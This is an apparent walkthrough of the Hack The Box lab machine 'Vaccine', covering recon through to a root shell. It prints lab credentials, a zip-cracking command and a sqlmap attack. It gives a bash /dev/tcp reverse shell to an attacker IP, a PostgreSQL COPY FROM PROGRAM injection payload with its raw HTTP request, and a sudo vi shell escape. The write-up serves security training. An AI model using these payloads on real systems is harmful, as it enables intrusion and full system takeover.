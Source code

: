 # hackthebox.eu box "Vaccine"

## 1. Recon

### nmap

We start by running `nmap`, a network discovery tool, on our target, `10.10.10.46`:

    nmap 10.10.10.46 -sV -sC

This is the console output:

```
vagrant@vagrant-virtualbox ~> nmap 10.10.10.46 -sV -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 14:53 CDT
Nmap scan report for 10.10.10.46
Host is up (0.049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.57 seconds
```

We can see that ftp, ssh, and http are open services. So, port 21, 22, and 80.

## 2. FTP credentials

Reusing credentials from the previous box, 'Oopsie', from this FileZilla XML file:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

We connect and download [`backup.zip`](downloaded-files/backup.zip) file. I used FileZilla, but you could use any client you like.

## 3. Cracking the zip file password

I used the rockyou.txt wordlist to crack the zip file's password.

    fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip

The password ended up being `741852963`.

There are 2 files inside `backup.zip`:

```
backup
|-- index.php
\-- style.css
```

## 4. Hardcoded password hash

In `index.php` on line 5, we can see a hardcoded MD5 password hash:

```php
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
```

This means our cred is

    admin:2cb42f8734ea607eefed3b70af13bbd3

I used an online md5 database, and retrieved:

    admin:qwerty789

I could have used `hashcat` if the online md5 database did not yield results.

## 5. Logging into the site

I logged into the site using `admin:qwerty789` and noticed an SQL injectable form.

<http://10.10.10.46/dashboard.php?search=a>

## 6. SQL Injection into reverse shell

So I copied the PHPSESSID cookie into my terminal, and got a reverse shell using `sqlmap` to attack the injectable form.

    sqlmap "http://10.10.10.46/dashboard.php?search=test" --cookie="PHPSESSID=jvf28f80n6p99j8nkfa9nq3tmm" --os-shell --random-agent

I then started a new shell as sqlmap's reverse shell is limited.

### Upgrading from sqlmap reverse shell

Note that `10.10.14.184` is the attacker's IP address.

Attacker runs (to receive TCP connection):

    nc -lvp 1234

Victim runs (to establish TCP connection):

    bash -c 'bash -i >& /dev/tcp/10.10.14.184/1234 0>&1'

And to upgrade shell:

    SHELL=/bin/bash script -q /dev/null

We are now logged in as the `postgres` user.

This is the payload:

    test';DROP TABLE IF EXISTS sqlmapoutput;CREATE TABLE sqlmapoutput(data text);COPY sqlmapoutput FROM PROGRAM '    bash -c ''bash -i >& /dev/tcp/10.10.14.184/6969 0>&1''';--

And this is the HTTP request that gets sent to the server:
    
    GET /dashboard.php?search=test%27%3BDROP%20TABLE%20IF%20EXISTS%20sqlmapoutput%3BCREATE%20TABLE%20sqlmapoutput%28data%20text%29%3BCOPY%20sqlmapoutput%20FROM%20PROGRAM%20%27%20%20%20%20bash%20-c%20%27%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.196%2F6969%200%3E%261%27%27%27%3B-- HTTP/1.1
    Cache-control: no-cache
    Cookie: PHPSESSID=51ai5vlm0bsmiragl1lnv2t3qg
    User-agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.2) Gecko/2008092000 Ubuntu/8.04 (hardy) Firefox/3.0.2
    Host: 10.10.10.46
    Accept: */*
    Accept-encoding: gzip,deflate
    Connection: close

## 7. More hardcoded credentials

We `cd` to `/var/www/`, and inside `dashboard.php` on line 41 is this line:

    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

## 8. Using `vi` to get a root shell

Now we can run `sudo -l` to list the commands that `postgres` is allowed to run.

    postgres@vaccine:/var/www/html$ sudo -l        
    sudo -l
    [sudo] password for postgres: P@s5w0rd!

    Matching Defaults entries for postgres on vaccine:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User postgres may run the following commands on vaccine:
        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

So we can run `/bin/vi /etc/postgresql/11/main/pg_hba.conf`.

If I run `vi` as root with:

    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

And then, inside `vi`, type:

    <ESC>:!/bin/bash<ENTER>

I should spawn a root shell. Let's try it.

See the wonky output below. Line 11. `^[` is `<ESC>`. Below the content of the `/etc/postgresql/11/main/pg_hba.conf` file, you can see shell commands.


    # DO NOT DISABLE!
    # If you change this first entry you will need to make sure that the
    # database superuser can access the database using some other method.
    # Noninteractive access to all databases is required during automatic
    # maintenance (custom daily cronjobs, replication, and similar tasks).
    #
    # Database administrative login by Unix domain socket

    # TYPE  DATABASE        USER            ADDRESS                 METHOD
                                                                            
    local   all             postgres                                iden^[:!/bin/bash <-- X
    # "local" is for Unix domain socket connections only
    local   all             all                                     peer
    # IPv4 local connections:
    host    all             all             127.0.0.1/32            md5
    # IPv6 local connections:
    host    all             all             ::1/128                 md5
    # Allow replication connections from localhost, by a user with the
    # replication privilege.
    local   replication     all                                     peer
    host    replication     all             127.0.0.1/32            md5
    host    replication     all             ::1/128                 md5
    :!/bin/bash
    root@vaccine:/var/lib/postgresql/11/main# whoami
    whoami
    root
    root@vaccine:/var/lib/postgresql/11/main# 

We're root!